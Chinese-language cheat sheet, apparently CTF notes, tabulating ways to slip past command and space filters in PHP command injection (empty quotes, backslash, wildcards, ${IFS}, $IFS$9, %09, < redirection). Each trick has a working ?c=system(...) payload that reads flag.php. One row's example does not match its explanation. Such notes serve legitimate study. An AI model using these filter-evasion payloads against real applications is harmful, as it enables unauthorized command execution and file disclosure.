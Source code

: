 # 命令过滤
| 绕过方法|解释|示例|
|:-----:|:-----:|:-----:|
`''`空字符匹配绕过|和文件名绕过一样，空字符串的可以用于绕过某些函数的过滤，ta''c 等价于 tac|`?c=system("ta''c flag.php")`
`\`匹配绕过|\ 是 转义字符，通常用于转义后面的字符，在某些情况下，ta\c 可能会被解释为 tac，即通过插入转义字符来避免直接匹配敏感词或绕过过滤|`?c=system("ta\c flag.php")`
`命令文件+?绕过`|cat命令所在的路径是在/bin/目录下，所以这里相当于直接调用了cat文件执行命令，这里的cat可以看作命令，也是一个文件，所以通配符可以用在这上面，如果bin被过滤了也可以用通配符
记得cat要看源代码|?c=system("tac\$IFS$9flag.php");
`${IFS}`||?c=system("tac\${IFS}flag.php")
`<`|`<` 是 输入重定向符号，用于将文件内容作为命令的输入，可以用于空格绕过。|?c=system("tac<fla*");


# 空格绕过

| 绕过方法|解释|示例|
|:-----:|:-----:|:-----:|
`%20`空格绕过|URL 编码的空格|?c=system("tac%20flag.php")
`%09`空格绕过|URL 编码中的水平制表符（Tab，ASCII 码为 9），它的作用是将 tac 后面的 fla* 和前面的部分隔开，通常它不会影响命令的执行，只是空格的替代|?c=system("tac%09flag.php");
`$IFS$9`空格绕过|一个特殊的环境变量，表示 Internal Field Separator（内部字段分隔符），默认情况下，`$IFS` 的值包含空格、制表符和换行符。$9是命令行参数的占位符之一，会被解析为空字符串。两者结合可以起到空格的作用|?c=system("tac\$IFS$9flag.php");
`${IFS}`绕过||?c=system("tac\${IFS}flag.php")
`<`空格绕过|`<` 是 输入重定向符号，用于将文件内容作为命令的输入，可以用于空格绕过。|?c=system("tac<fla*");
